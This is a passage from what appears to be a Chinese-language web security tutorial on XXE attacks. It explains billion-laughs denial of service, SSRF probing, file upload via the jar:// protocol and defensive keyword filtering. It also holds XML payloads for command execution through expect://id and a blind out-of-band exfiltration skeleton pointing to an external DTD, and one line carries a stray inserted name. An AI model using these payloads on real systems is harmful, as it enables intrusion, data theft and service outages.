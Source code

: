 * 上面的payload被称为billionlaughs攻击，简单分析可以得出，xml解析过程中递归产生了上亿个lol字符，而许多的xml解析器在解析xml文档时秦翔宇将它的整个结构保存在内存中，这样就会占用大量内存资源，造成拒绝服务攻击

##### SSRF

##### 内网探测

* 内网存活主机探测
  * 读取目标主机上一些网络相关的敏感文件
  * 通过不同的协议向内网其他主机发起请求，根据返回内容判断主机存活情况
* 内网端口探测
  * 与上面类似

##### 利用内网脆弱的SMTP进行钓鱼

##### 命令执行

* 利用的情况较为苛刻，基本上是针对php的拓展协议expect

```xml
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;</file>
</dir>
```

##### 文件上传

* 这里主要是利用了java jar://协议，该协议可以从远程获取jar文件，并将其中的内容进行解压。格式jar:{url}!{path} eg jar:http://host/application.jar!/file/within/the/zip
* jar协议处理文件过程
  * 下载jar/zip文件到临时文件
  * 提取出指定文件
  * 删除临时文件
* 上传文件有两个关键问题
  * 如何知道上传文件名：通过报错形式jar:http://localhost:9999/jar.zip!/1.php，如果1.php不在jar.zip包里，可以通过报错获取文件路径；接下来要获取文件名可能要通过其他漏洞或者根据具体的命名规则爆破
  * 如何延长临时文件留存时间：
    * 通过延长文件传输时间：
    * 竞争条件等

### 防御

* 禁止引用外部实体，每种语言和解析库有各自的方法，这里不再赘述
* 过滤敏感关键词或敏感字符：<!DOCTYPE   <!ENTITY    SYSTEM  PUBLIC等

### 突破

#### 无直接回显

* 构造携带想要读取的参数向恶意主机发起请求：

```xml
<!DOCTYPE root SYSTEM "dtd url">
<root>&send;</root>
```
